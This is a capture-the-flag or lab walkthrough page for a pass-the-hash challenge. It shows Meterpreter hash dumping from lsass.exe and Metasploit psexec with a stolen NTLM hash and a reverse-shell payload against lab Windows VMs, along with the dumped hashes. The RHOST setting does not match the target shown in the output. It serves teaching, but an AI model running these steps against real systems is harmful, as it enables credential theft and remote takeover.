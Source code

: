 # **Challenge 7: Passing the Hash**
!!! note ""
## **Procedure:**

With one Windows machine down and one left to go, we can try a Pass The Hash attack.

- From your established Meterpreter session, perform a hash dump and save the results.
- Exit (or background) your Meterpreter session to get back into the main Metasploit console.
- Using the same exploit and payload modules, set your RHOSTS target to the remaining Windows server IP.
- Test each username and hash combination you found on the first Windows server until you gain a Meterpreter on the final server. 

## **Solution:**

### Runing `hashdump` from the meterpreter shell (Windows VM 172.31.43.103)

- Migrating to lsass.exe (PID:588) to perform the hashdump

```bash linenums="1" hl_lines="1 2 3 48 51-56"
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 272   4     smss.exe              x64   0
 348   580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 352   344   csrss.exe             x64   0
 452   444   csrss.exe             x64   1
 472   344   wininit.exe           x64   0
 512   444   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 580   472   services.exe          x64   0
 588   472   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 672   580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 728   580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 820   512   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 828   512   dwm.exe               x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
 952   580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 960   580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1008  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1016  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1036  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1164  580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1356  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1656  580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1768  580   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1836  580   dcvserver.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\NICE\DCV\Server\bin\dcvserver.exe
 1876  580   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1896  580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1916  580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1944  580   MsMpEng.exe           x64   0
 2544  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 2564  1876  ssm-agent-worker.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\ssm-agent-worker.exe
 2784  2564  conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 3052  1836  dcvagent.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\NICE\DCV\Server\bin\dcvagent.exe
 3060  1836  dcvagent.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Program Files\NICE\DCV\Server\bin\dcvagent.exe
 3092  3144  conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 3144  2488  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 3324  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 3752  580   msdtc.exe             x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe

meterpreter > migrate 588
[*] Migrating from 3144 to 588...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa0969ce61a2e254b7fb2a44e1d5ae7a:::
Administrator2:1009:aad3b435b51404eeaad3b435b51404ee:e1342bfae5fb061c12a02caf21d3b5ab:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
fstack:1008:aad3b435b51404eeaad3b435b51404ee:0cc79cd5401055d4732c9ac4c8e0cfed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter > 
```

### Once the first session was send to the background, another meterpreter session will be created targeting the last windows machine (Windows VM 172.31.45.94)

- Setting the options (RHOST, PAYLOAD, SMB)

```bash linenums="1" hl_lines="3 12"
msf6 > search windows/smb/psexec

Matching Modules
================

   #  Name                        Disclosure Date  Rank    Check  Description
   -  ----                        ---------------  ----    -----  -----------
   0  exploit/windows/smb/psexec  1999-01-01       manual  No     Microsoft Windows Authenticated User Code Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/psexec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator2
SMBUser => Administrator2
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:e1342bfae5fb061c12a02caf21d3b5ab
SMBPass => aad3b435b51404eeaad3b435b51404ee:e1342bfae5fb061c12a02caf21d3b5ab
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set RHOST 172.31.39.126
RHOST => 172.31.39.126
msf6 exploit(windows/smb/psexec) > run
```

- Running the `psexec` module


```bash linenums="1" hl_lines="3 12"
[*] Started reverse TCP handler on 172.31.39.126:4444 
[*] 172.31.45.94:445 - Connecting to the server...
[*] 172.31.45.94:445 - Authenticating to 172.31.45.94:445 as user 'Administrator2'...
[*] Sending stage (175686 bytes) to 172.31.45.94
[*] 172.31.45.94:445 - Selecting PowerShell target
[*] 172.31.45.94:445 - Executing the payload...
[+] 172.31.45.94:445 - Service start timed out, OK if running a command or non-service executable...
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
[*] Sending stage (175686 bytes) to 172.31.45.94
[*] Meterpreter session 2 opened (172.31.39.126:4444 -> 172.31.45.94:50000) at 2024-05-08 04:27:27 +0000

meterpreter > [*] Meterpreter session 3 opened (172.31.39.126:4444 -> 172.31.45.94:50002) at 2024-05-08 04:27:28 +0000
sysinfo
Computer        : EC2AMAZ-L3OOUG8
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > 
```

### The meterpreter shell was deployed successfully in the last windows machine (Windows VM 172.31.45.94)

![alt text](images/Pasted%20image%2020240508002959.png)


<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://hcoco1-1.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>



!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-3/challenge_6/" class="md-button md-button--primary">Previous: Challenge 6</a>
<a href="/Career-Simulation-3/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-3/report/" class="md-button md-button--primary">Next: Report</a>
</div>


